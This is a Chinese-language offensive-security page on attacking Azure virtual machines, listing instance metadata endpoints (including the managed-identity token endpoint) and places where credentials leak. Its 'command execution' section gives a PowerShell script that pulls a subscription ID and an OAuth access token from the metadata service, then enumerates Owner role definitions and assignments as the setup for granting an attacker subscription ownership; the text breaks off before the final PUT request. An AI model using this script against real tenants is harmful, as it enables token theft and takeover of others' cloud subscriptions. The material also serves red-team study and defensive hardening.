 ```yaml
---
title: 微软云 VM 弹性计算服务攻防
id: azure_vm
---
```


## 0x01、初始访问
### 1、元数据
微软云元数据以 REST API 的形式公开。它的根端点是http://169.254.169.254/metadata



微软为其 API 端点实施了一些额外的安全措施——需要特殊的标头:Metadata:true

```
http://169.254.169.254/metadata/versions 元数据版本，元数据功能会不时更新，但需要在访问时指定版本以保持向后兼容性
http://169.254.169.254/metadata/instance?api-version=2021-05-01 实例元数据，实例元数据提供 VM 配置信息。
http://169.254.169.254/metadata/attested/document?api-version=2021-05-01 认证数据，认证数据是由Microsoft签名的数据
http://169.254.169.254/metadata/loadbalancer?api-version=2021-05-01 负载均衡器元数据
http://169.254.169.254/metadata/scheduledevents?api-version=2020-07-01 预定活动，获取VM即将要发生的事件的信息
http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/ 获取访问令牌
```

### 2、凭证泄露
Azure 平台用户名密码泄露、Access token泄露
可能会存在服务帐号密钥的位置，包括：开源项目的源代码库、公共存储桶、遭破解服务的公共数据转储、电子邮件收件箱、文件共享、备份存储、临时文件系统目录

## 0x02、命令执行
### 1、添加订阅所有者
从元数据获取Azure Rest API得令牌，如果返回了一个令牌，那么你将拥有一个可使用得托管身份，然后可以利用此令牌和REST API一起使用，在Azure中执行操作。
```
#---------Query MetaData for SubscriptionID---------#
$response2 = Invoke-WebRequest -Uri 'http://169.254.169.254/metadata/instance?api-version=2018-02-01' -Method GET -Headers @{Metadata="true"} -UseBasicParsing
$subID = ($response2.Content | ConvertFrom-Json).compute.subscriptionId


#---------Get OAuth Token---------#
$response = Invoke-WebRequest -Uri 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/' -Method GET -Headers @{Metadata="true"} -UseBasicParsing
$content = $response.Content | ConvertFrom-Json
$ArmToken = $content.access_token

#---------List Roles and Get Subscription Owner GUID---------#
$roleDefs = (Invoke-WebRequest -Uri (-join('https://management.azure.com/subscriptions/',$subID,'/providers/Microsoft.Authorization/roleDefinitions?api-version=2015-07-01')) -Method GET -Headers @{ Authorization ="Bearer $ArmToken"} -UseBasicParsing).Content | ConvertFrom-Json
$ownerGUID = ($roleDefs.value | ForEach-Object{ if ($_.properties.RoleName -eq 'Owner'){$_.name}})

#---------List current Subscription Owners---------#
$roleAssigns = (Invoke-WebRequest -Uri (-join('https://management.azure.com/subscriptions/',$subID,'/providers/Microsoft.Authorization/roleAssignments/?api-version=2015-07-01')) -Method GET -Headers @{ Authorization ="Bearer $ArmToken"} -UseBasicParsing).content | ConvertFrom-Json
$ownerList = ($roleAssigns.value.properties | where roleDefinitionId -like (-join('*',$ownerGUID,'*')) | select principalId)
Write-Host "Current 'Owner' Principal IDs ("($ownerList.Count)"):"
$ownerList | Out-Host


#---------Set JSON body for PUT request---------#
```